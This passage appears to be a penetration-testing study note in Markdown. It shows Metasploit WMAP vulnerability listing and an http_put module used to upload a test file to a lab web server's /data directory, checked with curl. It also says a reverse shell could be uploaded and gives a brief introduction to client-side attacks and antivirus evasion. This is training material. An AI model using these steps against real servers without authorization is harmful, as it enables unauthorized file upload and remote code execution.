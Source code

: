- List WMAP found vulnerabilities

```bash
wmap_vulns -l
```

- Since the allowed methods are `POST`, `OPTIONS`, `GET`, `HEAD`, exploit the vulnerability with the use of `auxiliary/scanner/http/http_put` module to upload a file into the `/data` directory
  - 📌 A reverse shell payload can be uploaded and run on the target.

```bash
use auxiliary/scanner/http/http_put
options
set PATH /data/
set FILEDATA "File uploaded"
set FILENAME file.txt
run
```

![Metasploit - auxiliary/scanner/http/http_put](assets/image-20230415171358249.png)

- Test if the file has been uploaded correctly

```bash
curl http://192.28.60.3:80/data/file.txt
```

## [Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF

A **client-side attack** is a security breach that happens on the client side.

- Social engineering techniques take advantage of human vulnerabilities
- Require user-interaction to open malicious documents or portable executables (**`PEs`**)
- The payload is stored on the client's system
- Attackers have to pay attention to Anti Virus detection
